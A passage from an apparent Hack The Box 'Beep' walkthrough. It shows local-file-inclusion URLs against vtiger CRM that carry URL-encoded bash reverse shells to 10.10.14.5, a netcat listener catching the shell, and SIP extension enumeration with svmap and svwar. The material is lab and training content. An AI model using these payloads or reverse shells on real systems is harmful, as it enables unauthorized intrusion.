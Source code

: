 Execute bash reverse shell.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

```
view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../..//var/mail/asterisk%00&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.1:30.6]~/walkthrough/hackthebox/beep
└─$ sudo nc -nvlp 443                                          
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 53748
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ 
```

### VoIP Command Injection

I used exploit `php/webapps/18650.py` found when I enum Elastix.

Detect VoIP system using svmap

```
┌──(Hades㉿10.10.14.5)-[2.1:20.3]~/walkthrough/hackthebox/beep
└─$ svmap 10.10.10.7
+-----------------+---------------------+-------------+
| SIP Device      | User Agent          | Fingerprint |
+=================+=====================+=============+
| 10.10.10.7:5060 | FPBX-2.8.1(1.8.7.0) | disabled    |
+-----------------+---------------------+-------------+
```

Find the extension in the server with `svwar`

+ `-m` method REGISTER (default), OPTIONS and INVITE
+ `-e` RANGE

There are an authentication when I use method REGISTER, I also have no OPTIONS, I use INVITE to call in the chanel with range of extension 100-300.

```
┌──(Hades㉿10.10.14.5)-[1.3:20.3]~/walkthrough/hackthebox/beep
└─$ svwar -m INVITE -e100-300 10.10.10.7
<snip>
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
| 229       | weird          |
+-----------+----------------+
``` 
